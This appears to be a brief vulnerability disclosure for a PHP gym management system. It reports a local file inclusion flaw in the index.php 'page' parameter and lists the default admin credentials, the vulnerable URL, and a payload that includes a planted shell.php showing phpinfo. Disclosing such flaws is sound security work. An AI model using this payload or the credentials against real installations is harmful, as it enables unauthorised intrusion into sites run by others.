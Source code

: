 # Gym Management System v1.0 by oretnom23 has The local file contains

The password for the backend login account is: admin/admin123

vendor : https://www.sourcecodester.com/php/14541/gym-management-system-using-phpmysqli-source-code.html

Vulnerability File: ip/gym-management-system/index.php?page=

Vulnerability location: ip/gym-management-system/index.php?page=, page

Payload: ip/gym-management-system/index.php?page=shell
![image](https://user-images.githubusercontent.com/54017627/167055236-73ab971c-99fb-4df9-89b1-e32ec6f5e073.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/167055202-9a09bcdc-0dbb-407f-bd09-9b5b4fb3d361.png)

And visit http://sns/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/167055186-dba329b1-4698-4459-a0a5-072d1b48944c.png)
